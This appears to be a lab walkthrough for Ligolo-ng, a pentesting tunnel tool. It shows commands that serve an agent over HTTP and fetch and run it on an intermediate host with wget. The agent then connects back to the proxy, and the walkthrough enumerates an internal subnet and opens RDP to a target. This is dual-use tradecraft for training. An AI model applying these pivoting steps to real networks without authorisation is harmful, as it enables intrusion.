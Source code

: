 ### **Ligolo-ng Overview and Usage Guide**

**Ligolo-ng** is a **simple**, **lightweight**, and **fast** tunneling tool designed for penetration testers. It enables the creation of tunnels over reverse TCP/TLS connections using a **TUN interface** — eliminating the need for a SOCKS proxy.

🔗 GitHub Repo: https://github.com/nicocha30/ligolo-ng

📦 Download Server (Proxy) and Agent: [Ligolo-ng v0.8 Releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8)

Lab Setup:

![image](https://github.com/user-attachments/assets/d4cb2435-9821-45da-bc24-c080fee8f780)


--
### 🖥️ **Running the Ligolo-ng Server (Proxy)**

1. **Unzip the downloaded release.**
2. **Run the proxy with a self-signed certificate:**

```jsx
./proxy --selfcert
```

![image](https://github.com/user-attachments/assets/dff88f9e-c4e2-4484-8636-91f21e4e7cbd)


### 🌐 **Serving the Agent to the Intermediate Machine**

1. **Start a simple HTTP server on your local machine to serve the agent file:**

```jsx
python -m http.server --bind 192.168.188.130 8888
```

![image](https://github.com/user-attachments/assets/c073ea31-ff61-4077-ba06-5dacf381a8b8)


### 📥 **Deploy the Agent to the Intermediate Machine**

1. **SSH into the intermediate machine:**
2. Download the agent file via `wget`:

```jsx
ssh [shankar@192.168.188.135](mailto:shankar@192.168.188.135)
wget http://192.168.188.130:8888/agent
```

![image](https://github.com/user-attachments/assets/f03ed78c-e65b-40e4-bc0e-c4f821074315)


### ▶️ **Running the Agent**

1. **Make the agent executable and run it:**

```jsx
chmod +x agent
./agent --connect 192.168.188.130:11601 -ignore-cert
```

![image](https://github.com/user-attachments/assets/e6dadf33-a4ec-4d40-aaf3-addb727f4837)


### 🧭 **Network Discovery**

1. **Check the IP address of the intermediate machine:**

```jsx
ifconfig
```

![image](https://github.com/user-attachments/assets/27d93758-dbeb-4820-910a-8009d83036c8)


2. Enumerate the target network (e.g., `192.168.11.0/24`):

```jsx
sudo netdiscover -i ens37 -r 192.168.11.0/24
```

![image](https://github.com/user-attachments/assets/3cf76d44-6393-4a7b-b209-bf5ec7179570)


### 🖥️ **Remote Desktop to the Target**

1. **Use Remmina (or any RDP client) to connect to the target system:**

```jsx
remmina -c rdp://john@192.168.11.131
```

![image](https://github.com/user-attachments/assets/1e54e495-83b1-4df5-9763-8a762b9d9083)

issue : 

error: unable to start tunnel: file exists

<img width="972" height="574" alt="image" src="https://github.com/user-attachments/assets/2e69bf38-e568-4751-b2b9-5150ef19c386" />


    ip link show

    sudo ip link delete <Interface name>

Delete the adapters created by ligilo and while conneting user create new interface. 
